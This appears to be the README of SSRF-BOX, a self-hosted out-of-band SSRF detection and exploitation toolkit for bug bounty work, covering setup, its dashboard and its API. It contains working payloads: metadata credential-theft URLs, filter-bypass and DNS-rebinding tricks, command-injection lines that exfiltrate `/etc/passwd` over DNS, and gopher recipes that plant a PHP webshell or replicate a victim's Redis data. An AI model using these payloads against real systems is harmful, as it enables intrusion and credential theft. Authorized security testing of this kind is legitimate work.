

<div align="center">
  
</div>

<br>

<div align="center">

**SSRF-BOX** is a self-hosted, Docker-based SSRF detection and exploitation suite built for Bug Bounty hunters.  
It replaces Burp Collaborator and Interactsh with a tool you fully control — with a real-time dashboard,  
session management, gopher payload builder, DNS rebinding, and listeners for 10+ protocols.

</div>

<br>

---

## Table of Contents

- [Features](#features)
- [Architecture](#architecture)
- [Requirements](#requirements)
- [Quick Start](#quick-start)
- [DNS Setup](#dns-setup)
- [TLS Setup](#tls-setup)
- [Dashboard Guide](#dashboard-guide)
- [Bug Bounty Workflow](#bug-bounty-workflow)
- [Payload Types](#payload-types)
- [Gopher Builder](#gopher-builder)
- [CLI Reference](#cli-reference)
- [API Reference](#api-reference)
- [Notifications](#notifications)
- [Environment Variables](#environment-variables)
- [Security](#security)

---

## Features

### Core detection
| Feature | Detail |
|---|---|
| **DNS listener** | Wildcard `*.oob.domain.com`, TTL=1, decodes base64/hex exfil in subdomains |
| **HTTP catch-all** | Ports 80, 443, 3000, 8443, 8888 — every path logged with headers, body, IP |
| **HTTPS auto-TLS** | Let's Encrypt HTTP-01 via `autocert` — zero config, no certbot |
| **SMTP / SMTPS** | Ports 25 and 587 — full raw session capture |
| **LDAP / LDAPS** | Ports 389 and 636 |
| **Redis** | Port 6379 — raw protocol capture |
| **MySQL** | Port 3306 |
| **PostgreSQL** | Port 5432 |
| **FTP** | Port 21 |
| **Elasticsearch** | Port 9200 |
| **Memcached** | Port 11211 |
| **MongoDB** | Port 27017 |
| **SMB / NTLM** | Port 445 — detects and captures NTLMv2 hashes from Windows environments |

### Dashboard & UX
| Feature | Detail |
|---|---|
| **Real-time feed** | WebSocket push — new hits appear instantly, no reload |
| **Relative timestamps** | Shows `ahora / 45s / hace 3m / hace 2h` with exact time on hover, auto-updates every 30s |
| **UUID copy button** | One-click 📋 button on every feed row — appears on hover |
| **Full-text search** | 350ms debounce search across all fields (path, headers, body, raw, decoded) |
| **Stat counters** | Per-protocol counters in the header bar |
| **Browser notifications** | Desktop alerts on new hit with permission flow |
| **Sound alerts** | Web Audio API beep (dual-tone 880→660Hz), no external files |
| **Auto-scroll** | Toggle with checkbox in feed header |
| **Export** | JSON (client-side) and CSV (server-side) |
| **Rate limiting** | 50 req/min per IP on the public receiver — protects against flood |

### Bug Bounty workflow
| Feature | Detail |
|---|---|
| **Sessions** | Create named sessions with program, parameter, endpoint, notes — linked to UUID |
| **Program badges** | Deterministic color per program shown inline in every feed row |
| **Status marking** | Mark any UUID as `Confirmed / Investigate / False Positive` — persisted in DB |
| **UUID timeline** | Per-UUID correlation view with delta times (`+0.0s`, `+2.1s`) and gap indicators |
| **Interaction tags** | Free-form labels on any hit (e.g., `"sent 14:32"`, `"via redirect"`) — persisted in DB |
| **HTTP replay** | Re-fire any captured HTTP request to the receiver in one click — confirms reproducibility |
| **Payload history** | Every `POST /api/generate` call logged — regenerate or open timeline directly |
| **Payload .txt export** | Export current payload set as one-per-line `.txt` for Burp Intruder paste |
| **Session filter** | Filter feed by program name or UUID |

### Payloads & exploitation
| Feature | Detail |
|---|---|
| **OOB basic** | Subdomain-based DNS+HTTP callbacks, schema-relative variants |
| **IP bypass** | Decimal, hex, octal, dotless-hex, leading zeros, uppercase scheme, IPv6 |
| **DNS rebinding** | Count-based and time-based modes, TTL=1, alternates public→private IP |
| **Cloud metadata** | AWS IMDSv1/v2, GCP, Azure, DigitalOcean, Kubernetes |
| **Protocol payloads** | `file://`, `dict://`, `gopher://`, `ftp://`, `sftp://`, `ldap://`, `smtp://`, `jar://` |
| **Header injection** | XFF, X-Original-URL, X-Rewrite-URL, Referer, Host, X-Forwarded-Host |
| **DNS exfiltration** | Command injection templates for `whoami`, `id`, `hostname`, `/etc/passwd` chunks |
| **Gopher builder** | Interactive: Redis RESP (FLUSHALL, SET, webshell, SLAVEOF), HTTP internal, SMTP, raw |
| **IMDSv2 chain builder** | Two-step AWS IMDSv2 builder — runs Step 1 against SSRF-BOX, auto-fills token into Step 2 curls |

### Ops
| Feature | Detail |
|---|---|
| **Self-test** | `⚡ Self-test` button fires a real HTTP probe to the local receiver and confirms the WebSocket hit |
| **CLI check** | `GET /api/check/:uuid` → `{"hit":true,"count":3}` — designed for `watch -n1 curl …` loops |
| **Notifications** | Discord, Telegram, Slack webhooks on every new interaction |
| **3-container deploy** | dns-server, http-server, smtp-ldap — all via `docker compose up -d` |
| **Docker healthcheck** | http-server exposes `/ping`; smtp-ldap/dns-server wait for it before starting |

---

## Architecture

```
                  ┌─────────────────────────────────────────────────┐
DNS callbacks ──► │  dns-server  :53/udp+tcp                        │
(*.oob.domain)    │  • wildcard SOA/A/NS answers                    │
                  │  • DNS rebinding (TTL=1, count/time-based)      │
                  │  • subdomain base64/hex decode → exfil data     │
                  └────────────────┬────────────────────────────────┘
                                   │ POST /internal/interaction
                  ┌────────────────▼────────────────────────────────┐
HTTP callbacks ──►│  http-server  :80 :443 :3000 :8443 :8888        │
SSRF hits         │  • catch-all interaction logger (rate-limited)  │
                  │  • cloud metadata simulation (AWS/GCP/Azure)    │
                  │  • auto-TLS via Let's Encrypt autocert          │
Admin panel ─────►│  :8080  Dashboard + REST API + WebSocket        │
                  │          SQLite WAL  ·  JWT-free auth           │
                  └────────────────┬────────────────────────────────┘
                                   │ POST /internal/interaction
SMTP/LDAP ───────►┌────────────────┴────────────────────────────────┐
Redis/MySQL/FTP   │  smtp-ldap  :21 :25 :389 :587 :636 :3306       │
SMB/NTLM ────────►│             :5432 :6379 :9200 :11211 :27017     │
                  │  • raw banner capture for all protocols         │
                  │  • NTLMv2 hash detection on port 445            │
                  └─────────────────────────────────────────────────┘
```

**Data flow:** Every callback (DNS, HTTP, or protocol) is forwarded to the http-server via an internal authenticated API call, stored in SQLite, and pushed to all connected dashboard clients via WebSocket in real time.

---

## Requirements

- VPS with a static public IP (Ubuntu 22.04/24.04 recommended)
- A domain where you can configure NS records
- Docker + Docker Compose v2

> **Port 53** must be free on the host. On Ubuntu, `systemd-resolved` binds 53 by default.  
> Disable it: `systemctl disable --now systemd-resolved && rm /etc/resolv.conf && echo 'nameserver 1.1.1.1' > /etc/resolv.conf`

---

## Quick Start

```bash
git clone https://github.com/you/ssrf-box
cd ssrf-box

# 1. Copy and configure environment
cp .env.example .env
# Edit .env: set SSRF_DOMAIN, VPS_IP, API_KEY, INTERNAL_API_KEY

# 2. (Ubuntu) Free port 53
sudo systemctl disable --now systemd-resolved
sudo rm /etc/resolv.conf
echo 'nameserver 1.1.1.1' | sudo tee /etc/resolv.conf

# 3. Launch
docker compose up -d

# 4. Verify
docker compose ps
docker compose logs -f

# 5. Open dashboard
# http://YOUR_VPS_IP:8080  →  enter your API_KEY
```

---

## DNS Setup

You need to delegate a subdomain to your VPS so that all `*.oob.yourdomain.com` queries reach the dns-server container.

### Option A — NS delegation (recommended)

In your DNS provider (Cloudflare, Route53, etc.):

```
# Glue: the NS server itself must resolve
A     oob.yourdomain.com      →  YOUR_VPS_IP

# Delegate: make oob.yourdomain.com its own nameserver zone
NS    oob.yourdomain.com      →  oob.yourdomain.com
```

Verify propagation:
```bash
# Should return your VPS IP
dig A test.oob.yourdomain.com @8.8.8.8

# Should show oob.yourdomain.com as the nameserver
dig NS oob.yourdomain.com @8.8.8.8
```

### Option B — Wildcard A record (limited)

If NS delegation isn't possible:
```
A  *.oob.yourdomain.com  →  YOUR_VPS_IP
```
This captures HTTP but **not arbitrary subdomain DNS** (the wildcard resolves, but the DNS server won't see the raw query names). Suitable for HTTP-only SSRF testing.

---

## TLS Setup

SSRF-BOX supports three TLS modes. Set exactly one in `.env`.

### Option A — Auto-TLS via Let's Encrypt (recommended)

```env
AUTO_TLS_DOMAIN=oob.yourdomain.com
```

The server handles the HTTP-01 ACME challenge on port 80 and caches the cert in `/certs`. **No certbot needed.**

> **Limitation:** HTTP-01 issues a cert for the exact domain only (not `*.oob.domain.com` wildcard).  
> Subdomain payloads (`uuid.oob.domain.com`) still generate DNS callbacks — the TLS handshake  
> fails but the DNS lookup happens. For full HTTPS coverage on subdomains, use Option B with  
> a DNS-01 wildcard cert.

### Option B — Manual certificate

```env
TLS_CERT_PATH=/certs/fullchain.pem
TLS_KEY_PATH=/certs/privkey.pem
```

Mount your certificate directory in `docker-compose.yml`:
```yaml
volumes:
  - /etc/letsencrypt/live/oob.yourdomain.com:/certs:ro
```

Get a wildcard cert:
```bash
certbot certonly --manual --preferred-challenges=dns \
  -d "*.oob.yourdomain.com" -d "oob.yourdomain.com"
```

### Option C — Plain HTTP (default)

Leave both options empty. HTTP only on ports 80, 3000, 8443, 8888.

---

## Dashboard Guide

Access the dashboard at `http://YOUR_VPS_IP:8080` and enter your `API_KEY`.

### Interaction Feed

- **Real-time** — new hits appear via WebSocket without refresh
- **Relative time** — each row shows `ahora / 45s / hace 3m`; hover to see the exact timestamp
- **UUID copy** — hover over any row to reveal the 📋 button; click to copy the UUID
- **Click to detail** — click a row to open the full interaction detail panel (headers, body, raw data)
- **From detail** — use `⏱ Timeline` to open the correlation view for that UUID

### Sessions (Bug Bounty workflow)

Create a session before generating payloads to track findings by program:

1. Fill in **Program** (e.g., `shopify`), **Parameter** (e.g., `webhook_url`), **Endpoint**, **Notes**
2. Click **Crear Sesión + Payloads** — generates a UUID and a full OOB payload set in one step
3. Use the generated payloads in the target application
4. Incoming hits appear in the feed with a colored program badge
5. Open the **Timeline** to see all interactions for that UUID with delta times

**Status marking:** In the Timeline view, mark the UUID as:
- `✓ Confirmed` — valid bug, ready to report
- `? Investigate` — needs more testing
- `✗ False Positive` — discard

Status is stored in the DB and shown as a colored badge in the session list and payload history.

### Payload Generator

Select a payload type and click **Generar**:

| Type | Description |
|---|---|
| OOB Básico | DNS+HTTP callbacks, schema-relative variants |
| IP Bypass | All obfuscation variants for a target IP |
| DNS Rebinding | Count-based or time-based; configure public/private IPs |
| Cloud Metadata | AWS, GCP, Azure, GCP, DigitalOcean, Kubernetes |
| Header Injection | XFF, Host, Referer, X-Rewrite-URL, etc. |
| AWS IMDSv2 | Two-step flow with token instructions |
| Protocolos | file://, dict://, gopher://, ftp://, ldap://, smtp:// |
| Exfiltración DNS | Command injection templates for DNS-based data exfil |

Use **📄 .txt** to export the current payload set as one-per-line text for Burp Intruder.

### Timeline (UUID Correlation)

Open via: **⏱ Timeline** button in a session card, history item, or interaction detail.

- Interactions sorted chronologically with delta from first hit (`+0.0s`, `+2.1s`, …)
- Time gaps ≥5s are marked inline — useful to confirm DNS rebinding timing
- Click any event to open its full detail
- Status selector at the top — changes are saved immediately

### Interaction Tags

Open any interaction detail, then add free-form labels in the **Tags** section:

- Type a label and press **Enter** or click **+** (e.g., `"triggered at 14:32"`, `"via open redirect"`, `"step-2 only"`)
- Tags are stored in the DB and survive page reloads
- Click **×** on any chip to remove it
- Tags appear in the JSON detail view and are included in exports

### HTTP Replay

Available on **HTTP** interactions only. Click **↺ Replay** in the detail panel header.

The server re-sends the same `METHOD /path` (with original headers, minus hop-by-hop ones) to the local SSRF receiver on port 80. A toast shows `HTTP 200 in 8ms` on success or the error message on failure. The replay is logged as a new interaction in the feed — confirming the endpoint is still live and detectable.

> Replay fires internally — it does not contact the original source. It verifies your receiver works, not that the SSRF target still fires.

### IMDSv2 Chain Builder

The sidebar **Chain Builder** panel generates both steps of the AWS IMDSv2 flow with live curl previews:

1. **Step 1** — PUT to get the token:
   ```bash
   curl -s -X PUT "http://169.254.169.254/latest/api/token" \
     -H "X-aws-ec2-metadata-token-ttl-seconds: 21600"
   ```
   Click **▶ Run vs SSRF-BOX** to fire Step 1 against the local SSRF-BOX server (which simulates IMDS). The returned token auto-fills into Step 2.

2. **Step 2a** — list IAM roles (uses the captured token)
3. **Step 2b** — fetch credentials for a specific role

All curls update live as you change the target IP, TTL, token, or role name.

### Self-test

Click **⚡ Self-test** in the header after login. The server fires a real HTTP request to its own port 80 (falling back to 3000/8443/8888) using a unique UUID. The frontend polls the interaction list and confirms the hit arrived via WebSocket. If the button shows `✓ OK`, the full pipeline (receiver → DB → WebSocket) is working.

---

## Bug Bounty Workflow

```
1. Create a session for the target program
   └─ Fills program / parameter / endpoint for context

2. "Crear Sesión + Payloads" generates UUID + OOB payload set
   └─ Copy the payload, send it to the vulnerable parameter

3. Watch the live feed for incoming DNS/HTTP hits
   └─ Colored program badge identifies the program at a glance

4. Open Timeline to correlate: did DNS and HTTP both hit?
   └─ Delta times confirm order and timing (e.g., for rebinding)

5. Mark as Confirmed and export JSON/CSV for the report
```

### DNS Rebinding flow

```bash
# 1. Create rebinding session in dashboard
#    Public IP: 1.1.1.1 (passes target validation)
#    Private IP: 169.254.169.254 (the actual IMDS)
#    Mode: count-based, switch after 1st request

# 2. Use the generated payload
#    http://rebind-UUID.oob.yourdomain.com/latest/meta-data/iam/security-credentials/

# 3. What happens:
#    Request 1 → DNS resolves to 1.1.1.1 (validation passes)
#    Request 2 → DNS resolves to 169.254.169.254 (IMDS accessed)
#    Credentials appear in the SSRF-BOX feed
```

---

## Payload Types

### OOB Basic

```
http://UUID.oob.yourdomain.com
https://UUID.oob.yourdomain.com
http://UUID.oob.yourdomain.com/ssrf-check
//UUID.oob.yourdomain.com/test
```

### IP Bypass (127.0.0.1 example)

```
http://2130706433/          # decimal
http://0x7f000001/          # hex
http://0177.0.0.01/        # octal
http://[::1]/               # IPv6 compact
http://[::ffff:127.0.0.1]/ # IPv4-mapped IPv6
http://127.1/               # short form
http://0/                   # zero (0.0.0.0)
http://127.000.000.001/     # leading zeros
http://evil.UUID.oob.yourdomain.com@127.0.0.1/  # userinfo trick
http://127.0.0.1#@evil.UUID.oob.yourdomain.com/ # fragment trick
```

### Cloud Metadata

```
# AWS IMDSv1
http://169.254.169.254/latest/meta-data/iam/security-credentials/
http://169.254.169.254/latest/user-data

# AWS IMDSv2 (2-step)
PUT http://169.254.169.254/latest/api/token
  X-aws-ec2-metadata-token-ttl-seconds: 21600
GET http://169.254.169.254/latest/meta-data/iam/security-credentials/
  X-aws-ec2-metadata-token: <token>

# GCP
http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/token
  Metadata-Flavor: Google

# Azure
http://169.254.169.254/metadata/identity/oauth2/token?api-version=2021-02-01&resource=...
  Metadata: true
```

### DNS Exfiltration

```bash
# The target executes commands; output exfiltrated via DNS subdomain
http://$(whoami).UUID.oob.yourdomain.com/
http://`id`.UUID.oob.yourdomain.com/
nslookup $(cat /etc/passwd|base64|head -c 50).UUID.oob.yourdomain.com
```
The DNS server automatically decodes base64/hex subdomains and shows the `decoded_data` in the feed.

---

## Gopher Builder

The interactive Gopher Builder constructs `gopher://` URLs with correct RESP/HTTP/SMTP encoding.

### Redis — Webshell write (CONFIG+SET+BGSAVE)

```
Target: 127.0.0.1:6379
Template: Webshell
Dir: /var/www/html
File: shell.php
Shell: <?php system($_GET['cmd']); ?>
```

Generates a single `gopher://` URL that sends four RESP commands in sequence:
`CONFIG SET dir` → `CONFIG SET dbfilename` → `SET ssrfpayload <shell>` → `BGSAVE`

### Redis — SLAVEOF (data exfiltration)

```
Template: SLAVEOF
Master IP: YOUR_VPS_IP
Master port: 6379
```

Makes the target Redis instance replicate to your server, exposing all its data.

### HTTP internal request

```
Method: POST
Path: /admin/create-user
Host: interno.empresa.com
Body: username=attacker&role=admin
```

Generates a raw HTTP/1.1 request as a gopher payload — useful for SSRF to internal APIs.

### Double encoding

Click **📋 2x enc** to copy a double-URL-encoded version (`%` → `%25`). Use this when the SSRF goes through a redirect that decodes the URL once before following it.

---

## CLI Reference

### Check if a UUID received a hit

```bash
KEY="your-api-key"
HOST="http://YOUR_VPS_IP:8080"
UUID="a3f7b2d1"

curl -s -H "X-API-Key: $KEY" "$HOST/api/check/$UUID"
# → {"uuid":"a3f7b2d1","hit":true,"count":3}
```

### Watch loop — poll until hit

```bash
watch -n1 'curl -s -H "X-API-Key: $KEY" "$HOST/api/check/$UUID" | jq .'
```

### Generate payload from CLI

```bash
curl -s -H "X-API-Key: $KEY" -H "Content-Type: application/json" \
  -d '{"type":"ssrf","params":{"domain":"oob.yourdomain.com"}}' \
  "$HOST/api/generate" | jq '.payloads[].payload'
```

### Check interactions for a UUID

```bash
curl -s -H "X-API-Key: $KEY" "$HOST/api/interactions/a3f7b2d1" | jq '.interactions[] | {type, source_ip, path}'
```

### Full Bug Bounty session from CLI

```bash
# 1. Create session
SESSION=$(curl -s -H "X-API-Key: $KEY" -H "Content-Type: application/json" \
  -d '{"program":"shopify","parameter":"webhook_url","endpoint":"POST /api/webhooks"}' \
  "$HOST/api/sessions")
UUID=$(echo $SESSION | jq -r '.uuid')

# 2. Generate payloads
curl -s -H "X-API-Key: $KEY" -H "Content-Type: application/json" \
  -d "{\"type\":\"ssrf\",\"params\":{\"domain\":\"oob.yourdomain.com\",\"uuid\":\"$UUID\"}}" \
  "$HOST/api/generate" | jq '.payloads[0].payload'

# 3. Test your target, then poll for hits
watch -n2 "curl -s -H 'X-API-Key: $KEY' $HOST/api/check/$UUID"

# 4. Mark confirmed
curl -s -X PATCH -H "X-API-Key: $KEY" -H "Content-Type: application/json" \
  -d '{"status":"confirmed"}' \
  "$HOST/api/sessions/$UUID/status"
```

---

## API Reference

All endpoints require `X-API-Key: <key>` header.  
Base URL: `http://YOUR_VPS_IP:8080`

### Interactions

| Method | Path | Description |
|---|---|---|
| `GET` | `/api/interactions` | List interactions (`?uuid=&type=&limit=&offset=`) |
| `GET` | `/api/interactions/:uuid` | All interactions for a UUID |
| `DELETE` | `/api/interactions/:uuid` | Delete all interactions for a UUID |
| `POST` | `/api/interactions/:id/tags` | Add a tag `{"tag":"..."}` — returns updated `{"tags":[...]}` |
| `DELETE` | `/api/interactions/:id/tags` | Remove a tag `{"tag":"..."}` — returns updated `{"tags":[...]}` |
| `POST` | `/api/interactions/:id/replay` | Re-fire the HTTP request to local receiver — returns `{"ok":bool,"status":200,"ms":8}` |
| `GET` | `/api/check/:uuid` | `{"hit":bool,"count":N}` — CLI-friendly |
| `GET` | `/api/search?q=` | Full-text search across all fields |
| `GET` | `/api/export` | CSV export (`?uuid=&type=`) |
| `GET` | `/api/stats` | Per-type counts + total + unique UUIDs |

### Sessions

| Method | Path | Description |
|---|---|---|
| `POST` | `/api/sessions` | Create session (program, parameter, endpoint, notes) |
| `GET` | `/api/sessions` | List all sessions (`?program=` to filter) |
| `GET` | `/api/sessions/:uuid` | Get session for a UUID |
| `PATCH` | `/api/sessions/:uuid` | Update session metadata |
| `DELETE` | `/api/sessions/:uuid` | Delete session |
| `PATCH` | `/api/sessions/:uuid/status` | Set status: `confirmed / false_positive / investigate / ""` |

### Payloads

| Method | Path | Description |
|---|---|---|
| `POST` | `/api/generate` | Generate payloads (see types below) |
| `GET` | `/api/payloads` | Quick payload set for the configured domain |
| `GET` | `/api/payload-history` | Recent payload generations (`?limit=`) |
| `DELETE` | `/api/payload-history/:id` | Delete a history entry |

### DNS Rebinding

| Method | Path | Description |
|---|---|---|
| `POST` | `/api/rebind` | Configure rebinding for a UUID |

```json
{
  "uuid": "a3f7b2d1",
  "public_ip": "1.1.1.1",
  "private_ip": "169.254.169.254",
  "switch_after": 1,
  "switch_delay_seconds": 5
}
```

### Ops & Chains

| Method | Path | Description |
|---|---|---|
| `POST` | `/api/selftest` | Fire a self-probe — returns `{"ok":true,"uuid":"...","port":"80"}` |
| `POST` | `/api/chain/imdsv2/step1` | PUT token request to target — returns `{"ok":true,"token":"...","ms":N}` |
| `GET` | `/ws` | WebSocket feed (pass API key as `Sec-WebSocket-Protocol` header) |

**IMDSv2 Step 1 body:**
```json
{"target": "169.254.169.254", "ttl": 21600}
```
Defaults: `target=127.0.0.1`, `ttl=21600`. Point at your own server to test the simulated IMDS flow.

### Generate payload types

```json
{"type": "ssrf",     "params": {"domain": "oob.domain.com", "uuid": "optional"}}
{"type": "bypass",   "params": {"domain": "...", "target": "127.0.0.1"}}
{"type": "rebind",   "params": {"domain": "...", "public_ip": "...", "private_ip": "..."}}
{"type": "cloud",    "params": {"domain": "..."}}
{"type": "headers",  "params": {"domain": "..."}}
{"type": "imdsv2",   "params": {"domain": "..."}}
{"type": "protocol", "params": {"domain": "..."}}
{"type": "exfil",    "params": {"domain": "..."}}
```

---

## Notifications

Configure in `.env` to receive alerts on every new interaction:

### Discord

```env
DISCORD_WEBHOOK=https://discord.com/api/webhooks/YOUR_WEBHOOK_URL
```

### Telegram

```env
TELEGRAM_BOT_TOKEN=123456:ABC-DEF...
TELEGRAM_CHAT_ID=-1001234567890
```

Create a bot with [@BotFather](https://t.me/BotFather), add it to a group or channel, then get the chat ID:
```bash
curl https://api.telegram.org/bot$TOKEN/getUpdates | jq '.result[].message.chat.id'
```

### Slack

```env
SLACK_WEBHOOK=https://hooks.slack.com/services/T.../B.../...
```

---

## Environment Variables

| Variable | Required | Description |
|---|---|---|
| `SSRF_DOMAIN` | ✓ | OOB domain (e.g., `oob.yourdomain.com`) |
| `VPS_IP` | ✓ | Public IP of your VPS (used in DNS responses) |
| `API_KEY` | ✓ | Dashboard + API authentication key (min 32 chars) |
| `INTERNAL_API_KEY` | ✓ | Internal auth between containers (not exposed) |
| `AUTO_TLS_DOMAIN` | — | Enable Let's Encrypt auto-TLS for this domain |
| `TLS_CERT_PATH` | — | Manual cert path (inside container) |
| `TLS_KEY_PATH` | — | Manual key path (inside container) |
| `CERT_CACHE_DIR` | — | Cache dir for autocert (default: `/certs`) |
| `DB_PATH` | — | SQLite file path (default: `/data/ssrf-box.db`) |
| `DISCORD_WEBHOOK` | — | Discord webhook URL for alerts |
| `TELEGRAM_BOT_TOKEN` | — | Telegram bot token |
| `TELEGRAM_CHAT_ID` | — | Telegram chat/channel ID |
| `SLACK_WEBHOOK` | — | Slack incoming webhook URL |
| `RATE_LIMIT_RPM` | — | Max HTTP requests per minute per IP on the public receiver (default: `50`, set `0` to disable) |

---

## Security

### What is exposed

| Port | Exposure | Auth |
|---|---|---|
| 53 | Public | None (required for DNS) |
| 80, 443, 3000, 8443, 8888 | Public | None (required for SSRF callbacks) |
| 25, 389, 21, 6379, … | Public | None (required for protocol detection) |
| 8080 | Should be restricted | `X-API-Key` required for all `/api/*` endpoints |

### Recommended UFW rules

```bash
# Allow essential ports
ufw allow 22/tcp      # SSH
ufw allow 53          # DNS (udp+tcp)
ufw allow 80/tcp      # HTTP receiver
ufw allow 443/tcp     # HTTPS receiver
ufw allow 8080/tcp    # Dashboard — restrict to your IP if possible

# Protocol listeners — restrict to your own IP if only testing locally
ufw allow 25/tcp
ufw allow 389/tcp
ufw allow 6379/tcp
# ... etc

ufw enable
```

### Limiting admin access

If you only access the dashboard from a fixed IP:
```bash
ufw allow from YOUR_IP to any port 8080
ufw deny 8080
```

### Rate limiting

The public HTTP receiver (ports 80/443/3000/8443/8888) enforces a **50 req/min per IP** fixed-window rate limit. Requests exceeding the limit receive `429 Too Many Requests` with a `Retry-After: 60` header. The admin API on port 8080 is not rate-limited (it is authenticated).

### What is NOT protected by design

- Port 80/443 interaction endpoints are intentionally public — SSRF callbacks come from target servers you don't control
- A motivated attacker who discovers your OOB domain could spam the DB — use a non-guessable domain name and rotate API keys if exposed

---

## Logs

```bash
# All services
docker compose logs -f

# Single service
docker compose logs -f http-server
docker compose logs -f dns-server
docker compose logs -f smtp-ldap

# Log rotation is configured (10 MB × 5 files per service)
```

---

## License

MIT — use freely, own your infrastructure.
